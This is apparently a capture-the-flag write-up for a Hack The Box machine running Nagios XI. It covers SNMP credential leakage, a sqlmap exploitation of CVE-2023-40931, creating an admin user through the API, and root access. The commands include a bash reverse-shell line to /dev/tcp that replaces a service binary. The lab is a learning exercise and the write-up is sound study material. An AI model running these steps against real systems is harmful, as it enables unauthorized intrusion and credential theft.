










<p align="center">

</p>


## Content

[1. Scanning](#scanning)  
[2. Foothold](#foothold)  
[3. Privilege escalation](#privilege-escalation)  
[4. Take aways](#take-aways)

## Scanning

### Nmap

Let's run nmap against our target:
```
$ nmap -sT -T4 -Pn -oN basic_scan 10.10.11.248

Warning: 10.10.11.248 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.248
Host is up (0.082s latency).
Not shown: 957 closed tcp ports (conn-refused), 39 filtered tcp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
389/tcp open  ldap
443/tcp open  https
```
Let us grab more info on those specific ports:
```
$ nmap -A -T4 -Pn -p 22,80,443,389,5667 -oN precise_scan 10.10.11.248

Nmap scan report for nagios.monitored.htb (10.10.11.248)
Host is up (0.083s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
|   256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
|_  256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
80/tcp   open  http       Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Did not follow redirect to https://nagios.monitored.htb
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.56 ((Debian))
| tls-alpn: 
|_  http/1.1
|_http-title: Nagios XI
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.56 (Debian)
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
5667/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We change our `/etc/hosts` to accomodate for `https://nagios.monitored.htb` and move on to check our current targets (web server + AD from LDAP). If nothing is found, we'll continue scanning on all ports and/or with UDP scans.

### Web server

While browsing the web page, let's have a directory bursting in the background:  
`ffuf -u https://nagios.monitored.htb/FUZZ -w /usr/shared/wordlists/dirbuster/directory-list-2.3-medium.txt`

The webpage does not contain much information, mostly just a redirect to `https://nagios.monitored.htb/nagiosxi`



However, this new target seems more promising, as we already have access to a login.



Opening the developer tools and clicking on `login`, we can track what is the request we need to perform a brute-force attack on `/login.php` (or alternatively, use Burp Pro):

```
nsp=<token>
page=auth
debug=
pageopt=login
redirect=%2Fnagiosxi%2Findex.php%3F
username=
password=
loginButton=
```

Unfortunately, the request from python (see `tentative_brute_force.py`) does not trigger an `invalid username or password` message to pop in the response. I'll leave that for now and come back if needed.


We launch a new directory bursting on this `/nagiosxi` to find attack vectors:    
`ffuf -u https://nagios.monitored.htb/nagiosxi/FUZZ -w /usr/shared/wordlists/dirbuster/directory-list-2.3-medium.txt`

After getting the results from both commands, we see that the first one did not yield much information (`/nagios` but requires some credentials). However, we have plenty of results from the second one! Check the sample below.



We have a `terminal` endpoint, let's try it! We arrive in an inline terminal which requires authentication. As the obvious credentials (admin, root, password, username, ...) gives nothing we move on and will come back in case.

At this point I decided to search through two last endpoints before moving to Nagios CVE for a change:

- `fuff -u https://nagios.monitored.htb/nagiosxi/db/FUZZ -w /usr/shared/wordlists/dirbuster/directory-list-2.3-small.txt --recursion`
- `fuff -u https://nagios.monitored.htb/nagiosxi/api/FUZZ -w /usr/shared/wordlists/dirbuster/directory-list-2.3-small.txt --recursion -fw 4`

PS: you may need to adjust the filters yourself

Plenty of results, but once again nothing worth it after browsing through them. Note that there is an interesting `/api/v1/authenticate` endpoint that can only be used with a POST method, but at this point I could get nothing out of it. Moreover, some endpoint requires an API key.


### Nagios CVE

Before trying out the other trails we left before, let's search for Nagios CVE to find an easy attack vector.

Most of the RCE involve SQL injection on various endpoints, but they either did not work or the API endpoint does not exist.

Not knowing exactly what to do at this point, I looked for some clues on forums and the answer is ... port scanning on UDP services.

### Back to NMap

Let's run a scan against UDP protocols:

`sudo nmap -sU T4 10.10.11.248`



Running the same command with the additional flag `-sVC` on these specific ports teaches us that the target is running postgresql among other things.

Two services seems to be runnning: NTP and SNMP. After a quick search, `snmpwalk` can be used to leverage the SNMP service.

### SNMPwalk

The SNMP service can be leverage when the default settings are used, enabling the community string `public` to be used and recover information from this service. Therefore, we run `snmpwalk -v2 -c public 10.10.11.248` and obtain tons of logs. Lost among this information, we find some credentials.



We get:
- username: <b>svc</b>
- password: <b>XjH7VCehowpR1xZB</b>


I tried this password on the login page we found previously, but it does not work. It worked however in the `/nagios` path we found first. Upon entering these credentials, we find now another page.



Nagios version 4.4.13!! While digging through the tabs, we find the different running services as well.



Moreover we can disable service checks for any of these and check commands + command expansion. I tried to check all of these, as well as some injection in the command field but nothing.
After spending some time on this page, I remembered the `/authenticate` we found earlier and decided to test the credentials on this one.

## Foothold

### Leverage `/authenticate`

Either with python or curl, it is possible to get a token out of this endpoint with:  
`curl -X POST -k https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d "username=svc&password=XjH7VCehowpR1xZB"`

or
```
import requests
data = {"username": "svc", "password": "XjH7VCehowpR1xZB"}
requests.post("https://nagios.monitored.htb/nagiosxi/api/v1/authenticate", data=data, verify=False).json()
```

In both cases we receive a token with an expiry time. I found that by adding the parameter `valid_min=<desired-time>` we can have a token with a lifetime as long as we wish.

But where to use this token? We now recall some endpoints hidden behind an API token in `/nagiosxi`, like `/nagiosxi/api/v1/admin`. After a little search over Nagios documentation on how to use the token (see [here](https://www.nagios.org/ncpa/help/2.2/api.html)), we try to add `?token=<token>`, but the result is the same ... After some quick search, it turned out the token should be used directly on the login page `/nagiosxi/login.php?token=<token>` to be logged as user svc. Nagios XI 5.11.0 !! The page looks a lot like the one we found earlier, but this time, if we look for CVEs on Nagios XI 5.11, we find CVE-2023–40931!!

### CVE-2023–40931 

As stated [here](https://nvd.nist.gov/vuln/detail/CVE-2023-40931) and [here](https://outpost24.com/blog/nagios-xi-vulnerabilities/), this one is a SQL injection on the `/nagiosxi/admin/banner_message-ajaxhelper.php` endpoint via the `id` parameter. Let's try to do it ourselves (always good exercise!).

We try a POST on this endpoint with the standard `' OR 1=1 --` SQLi and got an error message telling us there indeed is a SQLi vulnerability. After many trials, I resigned myself to use `sqlmap` to make the query for me:

- Get all the tables with `sqlmap -u https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php --data "id=3&action=acknowledge_banner_message&token=<token>" -p id --tables`
- Dump everything from `nagiosxi.xi_users` table with `sqlmap -u https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php --data "id=3&action=acknowledge_banner_message&token=<token>" -p id -D nagiosxi -T xi_users --dump`

We get hashed passwords for both `svc` and `nagiosadmin` users, `$2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK` and `$2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C` respectively. These hashes seem to be from `bcrypt $2*$, Blowfish (Unix)` or hashcat code 3200 (check [here](https://hashcat.net/wiki/doku.php?id=example_hashes)). We run hashcat against and wait patiently.

As the hash cracking takes time, there might be another way to explore (according to HTB policy, this should not take more than 5 minutes + the password for `svc` is already quite complex). We notice we have as well the API keys of the users in the database. For the admin user, we get `IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL`, which we may try to use in the API. The question is where ... While googling for the answer, I found only now that the entire API documentation is available on the NagiosXI page, but I cannot find the API to add a user there, or how to escalate user `svc` to admin.




I found the answer [here](https://support.nagios.com/forum/viewtopic.php?t=42923):

`curl -XPOST "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=<api-key>&pretty=1" -d "username=<new-user>&password=<pwd>&name=<name>&email=<mail>"`

I will add a new user `thor` to test it and it seems to work well:



Great! But this user does not have high privileges, so we need to add a user with admin access level. I could not find anywhere the full API documentation and had to resort to look at a solution ... (if anyone has the info !). The parameter `auth_level` can be set to `admin` to make it work. After adding user `loki`, we now have full access to the functionalities of NagiosXI dashboard (and the full API now ...).

PS: if you receive no `user_id` in the response (`null`), then your new user will not work. This most likely comes from an error in your request, like an email missing `.<anything>`.

Now under Configure > Core Config Manager > Commands,  edit one of the commands, like `check-host-alive`, to initiate a reverse shell.



To run the command, go to Monitor > Hosts/Services and under `Check command`, choose your command and `Run check command`.

Finally, we have entered the system !! We can grab the flag under `/home/nagios/user.txt` and move on to privilege escalation.

## Privilege escalation

Running `sudo -l`, we observe a lot of permissions for our user! All `.sh` and `.php` files in these permissions are unfortunately not editable. But the nagios core service `ncpd` is accessible to us! We can find its location at `/usr/local/nagios/bin` and we have the permissions to edit it. Unfortunately, it seems to be used (`Text file busy`) and we therefore need to stop the service. `sudo systemctl npcd stop` does not work, but looking at our other permissions, we can use `manage_services.sh` and run `sudo /usr/local/nagiosxi/scripts/manage_service.sh stop ncpd`. We can then modify this file:
```
echo "#! /bin/bash" > /usr/local/nagios/bin/npcd
echo "bash -c 'bash -i >& /dev/tcp/<your-ip>/<a-port> 0>&1'" >> /usr/local/nagios/bin/npcd
sudo /usr/local/nagiosxi/scripts/manage_service.sh start ncpd
```

And we should have access to `/root` in our other reversed shell.

PS: I first when to change the permissions of the `/root` folder, but impossible to be able to read `/root/root.txt` (even with `sudo chmod 777 -R /root`) ... Other commands like `cat` do not output anything as well. Moreover, I tried to abuse the `$BASEDIR/../etc/xi-user.cfg` file in different `.sh` files with root permissions, but to no avail. Same for the `eval ...` in the `/usr/local/nagiosxi/scripts/backup_xi.sh`, impossible to abuse it. I have now no explanation why.


## Take aways

- After I got my first results from nmap, I jumped straight into the action, wrong! Better to gather as much information and decide afterwards what to do. I should have checked for UPD services directly
- Filtering all the information we receive is quite hard. I lost myself in all these API endpoints not knowing exaclty what to do.
- API/docs browsing is always important and finding the right information is a skill per se. Still not sure where to find the full API documentation of NagiosXI